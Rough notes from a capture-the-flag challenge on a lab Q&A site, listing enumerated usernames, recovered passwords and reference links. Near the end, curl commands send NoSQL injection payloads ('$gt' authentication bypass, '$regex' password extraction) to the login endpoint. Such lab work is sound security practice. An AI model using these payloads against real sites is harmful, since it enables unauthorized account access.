 # 10 - Stackunderflow

*Check out this new Q&A site. They must be hiding something but we don't know where to search.*

[Stackunderflow](http://whale.hacking-lab.com:3371/)

---

Sql inject. Question params.. ??


Email username !!!
Built on Express

SQL injection?
 https://pentest-tools.com/website-vulnerability-scanning/sql-injection-scanner-online
 GUESS NOT
 
Login (Email username )
 no_one, 
 the_admin
 null
 the_bean
 hax0r
 
Question IDs

http://whale.hacking-lab.com:3371/robots.txt
Maybe the_admin knows more about the flag.

site:http://whale.hacking-lab.com:3371/

curl http://example.com:8080/endpoint?name=Itchy&name=Scratchy

Cookies

https://medium.com/bugbountywriteup/celestial-a-node-js-deserialization-hackthebox-walk-through-c71a4da14eaa

5ce77d7caecd0f0015ce8500
5ce77d7caecd0f0015ce84fa

Passwords

the_admin / 76eKxMEQFcfG3fP
null N0SQL_injections_are_a_thing


https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html


curl -v -X POST -H "Content-Type: application/json" -d '{ "username": {"$gt": ""}, "password": {"$gt": ""} }' http://whale.hacking-lab.com:3371/login

curl  -H "Content-Type: application/json" -d '{ "username": "the_admin", "password": {"$regex": "^[a-zA-Z_]*$"} }' http://whale.hacking-lab.com:3371/login

